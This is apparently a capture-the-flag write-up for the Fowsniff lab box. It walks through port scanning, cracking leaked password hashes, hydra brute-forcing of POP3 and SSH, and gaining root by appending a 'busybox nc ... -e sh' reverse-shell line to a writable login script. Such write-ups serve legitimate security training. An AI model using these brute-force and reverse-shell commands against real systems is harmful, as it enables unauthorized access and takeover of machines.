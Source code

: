 # Fowsniff CTF

### Fowsniff CTF
Nmap scan finds ports 22,80,110 and 143 open.<br />
Enumerating the webpage, it's unavailable because of a databreach. Following the questions provided in the task, I found the [following link](https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt) that contains emails and hashed passwords of the employees!:<br />
![image](https://github.com/user-attachments/assets/8e264b24-a4e5-4f17-8b78-3913e3420f4d)<br />
Using crackstation I cracked most of them:<br />
![image](https://github.com/user-attachments/assets/e43c2bbe-28f0-4a72-bd1c-24fd7fa07dc5)<br />
I copied these users and passwords into local files, and used `hydra -L users.txt -P pass.txt -f 10.10.171.182 pop3` to check for valid credentials. I found the password for the user `seina`.<br />
I can now log in with netcat on port 110 and read emails with the following commands:<br />
![image](https://github.com/user-attachments/assets/b1d6f09a-1074-405a-9d4b-92932d36000b)<br />
The email contains the following message:<br />
![image](https://github.com/user-attachments/assets/a86a074a-1996-45a0-aafc-4c6bde547a4f)<br />
To find a valid user with that password, I run `hydra -L users.txt -p REDACTED_PASSWORD -f 10.10.171.182 ssh`. And I'm able to log in as user `baksteen`. After some system enumeration, I found a bash file inside `/opt/cube`:<br />
![image](https://github.com/user-attachments/assets/6c50e571-a522-43ac-b4d7-3a8dbceace01)<br />
This file gets executed by the user `parede` every time a user logs in (since it's the same banner I got after logging with baksteen). This file is writable by the `users` group, me included. So I change it and added `busybox nc my_IP my_PORT -e sh`, then logged out and in again with baksteen, and got a reverse root shell! Apparenlty that script gets executed by root, not parede.


